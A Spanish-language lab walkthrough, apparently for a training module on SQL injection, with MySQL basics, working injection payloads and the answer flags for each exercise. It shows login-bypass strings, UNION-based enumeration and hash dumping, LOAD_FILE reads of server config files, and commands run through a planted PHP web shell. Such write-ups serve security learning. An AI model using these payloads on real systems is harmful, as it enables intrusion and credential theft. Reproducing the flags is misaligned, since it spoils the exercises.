# SQL Injection Fundamentals

## MYSQL

### Intro to MySQL

1. **Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

Authenticate to with user "<font color="#00b050">root</font>" and password "<font color="#c00000">password</font>"

```
mysql -h 154.57.164.68 -P 32292 -u root -p
```

Pero me dará el siguiente error

<p align="center"> 

</p>

Para solucionarlo añadiremos lo siguiente al comando:

```
mysql -h 154.57.164.68 -P 32292 -u root -p --skip-ssl
show databases;     
```

<p align="center"> 

</p>

answer: **employees**

### SQL Statements

1. **What is the department number for the 'Development' department?**

Authenticate to with user "<font color="#00b050">root</font>" and password "<font color="#c00000">password</font>"

Continuando con la sesión de la actividad anterior, haremos los siguientes comandos:

```
SHOW columns FROM departments;
```

<p align="center"> 

</p>

```
SELECT dept_no FROM departments WHERE dept_name='development';
```

<p align="center"> 

</p>

answer: **d005**

### Query Results

1. **What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

Authenticate to 154.57.164.81 , with user "<font color="#00b050">root</font>" and password "<font color="#c00000">password</font>"

Continuando con la sesión de la actividad anterior, haremos los siguientes comandos:

```
SHOW columns FROM employees;
```

<p align="center"> 

</p>

```
SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
```

> Muéstrame el **apellido** (`last_name`) de los **empleados** (`FROM employees`) cuyo **nombre empiece por 'Bar'** (`WHERE first_name LIKE 'Bar%'`) **Y** que además hayan sido **contratados exactamente el 1 de enero de 1990** (`AND hire_date='1990-01-01'`).

<p align="center"> 

</p>

answer: **Mitchem**

### Interactive

1. **In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```
SHOW columns FROM titles;
```

<p align="center"> 

</p>

```
SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title != 'engineer';
```

> `Dime el número total (SELECT COUNT(*)) de puestos de trabajo (FROM titles) donde el número de empleado sea mayor a 10000 (WHERE emp_no > 10000) O el puesto sea diferente a 'engineer' (OR title != 'engineer')`.

<p align="center"> 

</p>

answer: **654**

## SQL injections

### Subverting Query

1. **Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

Ingresamos a la siguiente URL:

```
http://154.57.164.73:32166/
```

Si simplemente introducimos **‘**, se generará un error en la base de datos. Por lo tanto, la base de datos es vulnerable a ataques de este tipo.

<p align="center"> 

</p>

A continuación, escribiremos lo siguiente en **username**

```
Tom' -- -
```

Al meter ese texto exacto en el campo de usuario, alteras por completo la estructura de la orden SQL. La consulta final que se ejecuta en la base de datos se transforma en esto:

SQL

```
SELECT * FROM logins WHERE username='Tom' -- -' AND password = '';
```

Aquí es donde ocurre la "magia" debido a dos elementos clave:

- **La comilla simple (`'`)**: Cierra prematuramente el texto del nombre de usuario. El sistema piensa que el nombre a buscar es simplemente `'Tom'`.
- **Los guiones (`-- -`)**: En el lenguaje SQL, dos guiones seguidos (`--`) significan **"esto es un comentario"**. Al ponerlos, le estás diciendo a la base de datos: _"Ignora por completo todo lo que venga después de esto"_.

Así es como lograrnos como el usuario **Tom**

<p align="center"> 

</p>

answer: **202a1d1a8b195d5e9a57e434cc16000c**

### Using Comments

1. **Login as the user with the id 5 to get the flag.**

```
' or id=5) -- -
```

Al meter ese texto, la consulta se transforma en esto dentro del servidor:

SQL

```
SELECT * FROM usuarios WHERE (username = '' or id=5) -- -') AND activo = 1;
```

Aquí es donde desarmas la consulta por partes:

- **La primera comilla (`'`)**: Cierra el campo del `username`, dejándolo vacío (`''`).
    
- **El operador `or id=5`**: Le añade una condición alternativa a la base de datos. Le dice: _"Búscame un usuario que se llame 'vacío' O, si no lo encuentras, búscame al que tenga el ID igual a 5"_.
    
- **El paréntesis de cierre (`)`)**: Este es el detalle crucial. Como el código original abría un paréntesis antes de `username`, **tú tienes que cerrarlo manualmente** en tu input para que la sintaxis de SQL no se rompa y de un error de sistema.
    
- **Los guiones (`-- -`)**: Al igual que antes, borran y comentan todo lo que el programador había puesto después (el `AND activo = 1`, la comilla de cierre original, etc.).

Así es como conseguimos logearnos como **superadmin** el usuario con **id5**

<p align="center"> 

</p>

answer: **cdad9ecdf6f14b45ff5c4de32909caec**

### Union Clause

1. **Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

Authenticate to 154.57.164.64 , with user "<font color="#00b050">root</font>" and password "<font color="#c00000">password</font>"

```
mysql -u root -h 154.57.164.64 -P 30392 -p --skip-ssl
show columns from employees;
show databases;
use employees;
```

<p align="center"> 

</p>

```
show tables;
```

<p align="center"> 

</p>

```
show columns from employees;
```

<p align="center"> 

</p>

```
show columns from departments;
```

<p align="center"> 

</p>

Tenga en cuenta que la tabla “employees” tiene 6 columnas, mientras que la tabla “departments” tiene 2 columnas. Por lo tanto, al utilizar la operación “union”, debemos agregar valores nulos en lugar de crear 4 columnas adicionales.

```
SELECT * FROM employees UNION SELECT *,null,null,null,null FROM departments;
```

<p align="center"> 

</p>

answer: **663**

### Union Injection

1. **Use a Union injection to get the result of 'user()'**

El primer método consiste en insertar una serie de cláusulas del tipo `**ORDER BY**` , e ir incrementando el índice de la columna correspondiente hasta que se produzca un error.

Antes probamos estos comandos:

```
' ORDER BY 1 -- -  
' ORDER BY 2 -- -  
' ORDER BY 3 -- -  
' ORDER BY 4 -- -
```

El error empieza a partir de aquí:

```
' ORDER BY 5 -- -
```

<p align="center"> 

</p>

La posición número 5 de ORDER BY está fuera del rango del número de elementos en la lista de selección, por lo que el número de columnas = 4

El segundo método consiste en enviar una serie de consultas de tipo UNION SELECT, en las cuales se especifica un número diferente de valores `**null values**` . Si el número de valores nulos no coincide con el número de columnas, la base de datos genera un error 

Probamos antes con estos comandos 

```
' UNION SELECT NULL -- -  
' UNION SELECT NULL,NULL -- -  
' UNION SELECT NULL,NULL,NULL -- -
```

Pero apartir de este comando empieza a coincidir:

```
' UNION SELECT NULL,NULL,NULL,NULL -- -
```

<p align="center"> 

</p>

Todas las consultas combinadas mediante un operador UNION, INTERSECT o EXCEPT deben tener el mismo número de expresiones en sus listas de destino.

```
pwened' UNION SELECT NULL,NULL,user(),NULL -- -
```

<p align="center"> 

</p>

answer: **root@localhost**

## Exploitation

### Database Enumeration

 1. **What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**
  
Nombre de la base de datos actual

```
pwened' UNION select 1,database(),2,3-- -
```

<p align="center"> 

</p>

Enumera todas las tablas de una base de datos específica.

```
pwened' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

<p align="center"> 

</p>
  
Enumera todas las columnas de una tabla específica.

```
pwened' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

<p align="center"> 

</p>

Volcar datos de una tabla en otra base de datos

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

<p align="center"> 

</p>

answer: **9da2c9bcdf39d8610954e0e11ea8f45f**

### Reading Files

1. **We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

Encontrar usuario actual

```
cn' UNION SELECT 1, user(), 3, 4-- -
```

<p align="center"> 

</p>

Encuentra si la usuaria tiene privilegios de administrador

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<p align="center"> 

</p>

Encontrar todos los privilegios de usuario

```
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

<p align="center"> 

</p>

Averiguar qué directorios se pueden acceder a través de MySQL

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

<p align="center"> 

</p>

answer: **dB_pAssw0rd_iS_flag!**

### Writing Files

1. **Find the flag by using a webshell.**

Descubre qué directorios se pueden acceder a través de MySQL.

El resultado muestra que el valor de **secure_file_priv** está vacío, lo que significa que podemos leer y escribir archivos en cualquier ubicación.

```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

<p align="center"> 

</p>

Escribe un intérprete de comandos web en el directorio web base.

**El comando se encuentra en una imagen porque al antivirus me lo detecta y me borra el write up `-.-''`**

<p align="center"> 

</p>

Con el archivo que creamos con el anterior comando conseguimos un **web shell**

```
http://154.57.164.68:32359/shell.php?0=id
```

<p align="center"> 

</p>

```
http://154.57.164.68:32359/shell.php?0=find / -maxdepth 3 -type f -iname "*flag*" 2>/dev/null
```

<p align="center"> 

</p>

```
http://154.57.164.68:32359/shell.php?0=cat /var/www/flag.txt
```

<p align="center"> 

</p>

answer: **d2b5b27ae688b6a0f1d21b7d3a0798cd**

## Closing it Out

### Skills Assessment - SQL Injection Fundamentals

1. **What is the password hash for the user 'admin'?**

```
https://154.57.164.77:30806/register.php
```

Una vez estando en esta página haremos el siguiente registro 

<p align="center"> 

</p>

Antes de darle a **create count**, debo activar **foxyproxy** en el navegador y la **intercept on** en burpsuite, y ahora si que le damos a **create account**

<p align="center"> 

</p>

Esta nueva sesión la llevamos a **repeater** y añadimos lo siguiente y le damos a **send**

```
username=pedro&password=pedro12341234.%21&repeatPassword=pedro12341234.%21&invitationCode=abcd-efgh-1234' or '1'='1
```

En conclusión, el truco `' or '1'='1` es una técnica donde se manipula la lógica de una base de datos introduciendo comandos maliciosos en campos de texto comunes. Al forzar una condición que siempre resulta verdadera (como decir que uno es igual a uno), el atacante logra engañar al sistema para saltarse restricciones de seguridad, ya sea para registrarse sin una invitación válida o para entrar a una cuenta sin saber la contraseña, lo que demuestra la vital importancia de que los desarrolladores protejan sus aplicaciones limpiando y validando siempre los datos que introducen los usuarios.

<p align="center"> 

</p>

Como ya tenemos una cuenta creada exitosamente, ahora iniciamos sesión y nos encontraremos con lo siguiente:

<p align="center"> 

</p>

**SQL injection (not blind)**

**¿Cómo saber si la pagina es vulnerable o no a un SQLI?**

Para saber si una página web es vulnerable a una inyección SQL no siempre necesitamos ver un mensaje de error en la pantalla. A veces el fallo es 'silencioso'. La forma más fácil de detectarlo es enviando un carácter inesperado (`'`, ` `, `-- `), y observar cómo reacciona la web. Si al poner la comilla la página cambia por completo, se queda totalmente en blanco, o nos devuelve un 'Error 500' (error interno del servidor), significa que el sistema se ha confundido al procesar nuestra petición. Cuando una web está bien programada, simplemente debería ignorar ese carácter o decirnos amablemente que el texto no es válido, pero jamás romperse ni cambiar su comportamiento.

A continuación, usamos el siguiente comando para descubrir cuantas columnas que estamos utilizando.

```
') union select 1,2,3,4-- -
```

<p align="center"> 

</p>

**Enumeración de la base de datos**

```
') UNION SELECT NULL,NULL,SCHEMA_NAME,NULL FROM INFORMATION_SCHEMA.SCHEMATA;-- -
```

<p align="center"> 

</p>

**Enumeración de tablas**

```
') UNION SELECT NULL,NULL,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES where table_schema='chattr';-- -
```

<p align="center"> 

</p>

**Enumeración de columnas**

```
') UNION SELECT NULL,NULL,COLUMN_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Users';-- -
```

<p align="center"> 

</p>

Recuperar el hash de todos los usuarios

```
') UNION SELECT NULL,NULL,Username,Password FROM Users;-- -
```

<p align="center"> 

</p>

answer: `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`

2. **What is the root path of the web application?**

Para responder esta pregunta tenemos que visitar la página oficial de [ubuntu](https://ubuntu.com/server/docs/how-to/web-services/configure-nginx/)

<p align="center"> 

</p>

```
') UNION SELECT NULL,NULL,LOAD_FILE('/etc/nginx/sites-enabled/default'),NULL; -- -
```

<p align="center"> 

</p>

answer: **/var/www/chattr-prod**

3. **Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.**

Conseguimos una **web shell**

Ahora que conocemos la ruta raíz de la aplicación web, podemos intentar escribir un shell web PHP y finalizar esta evaluación

**PASO EL COMANDO EN IMAGEN PORQUE EL ANTIVIRUS ME BORRA TODO MIS APUNTES
`-.-''`**

<p align="center"> 

</p>

Con este comando obtenemos una web shell, en el navegador ponemos lo siguiente para listar la carpeta raíz

```
https://154.57.164.70:31130/websh.php?cmd=ls /
```

<p align="center"> 

</p>

```
https://154.57.164.70:31130/websh.php?cmd=cat /flag_876a4c.txt
```

<p align="center"> 

</p>

answer: **061b1aeb94dec6bf5d9c27032b3c1d8d**